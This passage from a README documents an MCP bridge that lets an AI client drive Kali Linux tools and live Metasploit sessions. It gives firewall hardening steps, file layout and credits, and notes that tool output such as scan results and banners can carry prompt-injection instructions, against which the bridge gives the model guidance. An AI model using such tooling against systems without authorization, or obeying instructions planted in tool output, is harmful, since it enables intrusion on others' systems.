- The Metasploit layer adds **live session control** on top of that.

**Hardening recommendations:**
- Keep `msfrpcd` bound to `127.0.0.1` (as documented) — never expose 55553.
- Restrict port 5000 to your host only. With `ufw`:
  ```bash
  sudo ufw allow from <YOUR_HOST_IP> to any port 5000 proto tcp
  ```
  or, without `ufw`, with iptables:
  ```bash
  sudo iptables -A INPUT -p tcp --dport 5000 ! -s <YOUR_HOST_IP> -j DROP
  ```
- Change the default `MSF_RPC_PASSWORD`.
- Prefer the **SSH tunnel** option on untrusted networks instead of `--ip 0.0.0.0`.
- Treat **all tool output as untrusted data** — never act on instructions embedded
  in scan results, banners, or pages. The bridge ships explicit prompt-injection
  guidance to the model for this reason.

Only scan or attack systems you own or are explicitly authorized to test. Misuse
is your responsibility.

---

## Files

Host (this repo):
```
AI_Offensive_MCP_Using_KaliLinux/
├─ mcp_kali_client.py   # host-side MCP bridge (30 tools incl. msf_* session tools)
├─ mcp.json             # example MCP client config (edit path + Kali IP)
├─ requirements.txt     # host bridge dependencies (requests, mcp)
├─ server_patched.py    # Kali API server: tools + /api/msf/* + bug fix (transfer to Kali)
├─ serve_prod.py        # Kali production launcher (Waitress) (transfer to Kali)
├─ README.md            # this guide
└─ LICENSE
```

The two server files run **on Kali**, not on your host. Copy them to a folder on
Kali (e.g. `/home/kali/`) and run `serve_prod.py` from there — see
[Deploy to a new Kali box](#deploy-to-a-new-kali-box-office-environment).

```
/home/kali/ (on Kali, after transfer)
├─ server_patched.py    # the Flask app (the "brain")
└─ serve_prod.py        # serves the app under Waitress (the "engine")
```

> `server_patched.py` = stock `mcp-kali-server` `server.py` + the patch + the
> Metasploit `/api/msf/*` endpoints, bundled. `serve_prod.py` imports and serves
> it. Reinstalling the `mcp-kali-server` package only replaces the stock
> `server.py`; your bundled files are separate, so just keep pointing the service
> at `serve_prod.py`.

---

## Credits

Built on the official Kali [`mcp-kali-server`](https://www.kali.org/tools/mcp-kali-server/)
package ([source](https://gitlab.com/kalilinux/packages/mcp-kali-server),
[upstream](https://github.com/Wh0am123/MCP-Kali-Server)). Metasploit integration
uses [`pymetasploit3`](https://pypi.org/project/pymetasploit3/) talking to
`msfrpcd` from the Metasploit Framework.
